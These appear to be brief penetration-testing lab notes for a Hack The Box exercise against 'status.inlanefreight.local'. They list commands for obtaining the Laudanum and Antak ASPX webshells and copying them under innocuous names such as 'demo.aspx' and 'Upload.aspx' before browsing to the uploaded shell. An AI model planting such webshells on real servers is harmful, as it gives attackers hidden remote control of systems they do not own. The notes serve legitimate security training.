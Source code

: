 # Laudanum, One Webshell to Rule Them All

git clone https://github.com/jbarcia/Web-Shells.git
mkdir -p /usr/share/webshells/laudanum/ 
cp -R Web-Shells/laudanum/ ~/.exegol/workspaces/htb/laudanum/
cp -R /workspace/laudanum/ /usr/share/webshells/laudanum/  

vim /etc/hosts
 10.129.127.238 status.inlanefreight.local

mkdir /home/tester/
cp /usr/share/webshells/Web-Shells/laudanum/aspx/shell.aspx /home/tester/demo.aspx

# Antak Webshell

ls /usr/share/nishang/Antak-WebShell
mkdir -p /home/administrator/ 
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx

Browser : hstatus.inlanefreight.local\files\Upload.aspx --> http://status.inlanefreight.local/files/Upload.aspx

# PHP Web Shells

